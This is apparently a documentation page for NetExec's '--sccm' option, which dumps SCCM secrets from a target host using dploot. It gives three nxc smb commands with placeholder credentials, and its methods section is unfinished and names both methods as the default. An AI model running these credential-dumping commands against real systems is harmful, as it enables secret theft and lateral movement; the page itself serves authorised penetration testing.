 # 🆕 Dump SCCM

### Dump the SCCM from target using methods from dploot

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```bash
2 methods are available:   
(default) 	wmi -  TODO
			disk - TODO (default)
```

```bash
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm disk
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm wmi
```
